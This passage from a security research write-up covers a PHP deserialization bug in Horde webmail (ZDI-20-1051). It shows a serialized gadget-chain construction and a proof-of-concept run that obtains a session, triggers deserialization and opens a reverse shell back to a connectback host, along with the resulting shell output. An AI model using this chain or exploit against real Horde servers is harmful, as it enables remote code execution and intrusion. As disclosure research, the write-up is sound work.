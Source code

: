 ```php
   }
}

class Horde_Kolab_Server_Decorator_Clean
{
   private $_server, $_added;
   function __construct()
   {
      $this->_added = array(0);
      $this->_server = new Horde_Prefs_Identity;
   }
}

$popchain = serialize(new Horde_Kolab_Server_Decorator_Clean);
echo $popchain;
```

...and finally icing on the cake:

```sh
saturn:~ mr_me$ ./poc.py 
(+) usage ./poc.py <target> <path> <user:pass> <connectback:port>
(+) eg: ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337

saturn:~ mr_me$ ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337
(+) targeting http://172.16.175.145/horde/
(+) obtained session iefankvohbl8og0mtaadm3efb6
(+) inserted our php object
(+) triggering deserialization...
(+) starting handler on port 1337
(+) connection from 172.16.175.145
(+) pop thy shell!
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/horde/services
uname -a
Linux target 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
exit
*** Connection closed by remote host ***
(+) repaired the target!
```

You can download the complete exploit [here](/pocs/zdi-20-1051.py.txt).

## Conclusions

Complex applications need both a white-box review *and* a black-box review to provide complete context to an auditor. Knowledge if the underlying framework and code is nice, but it can be very difficult to find the code path to a bug if context and understanding is not achieved. Continuing to discover and develop black-box finger printing techniques is very important for subtle and high impact vulnerability classes.

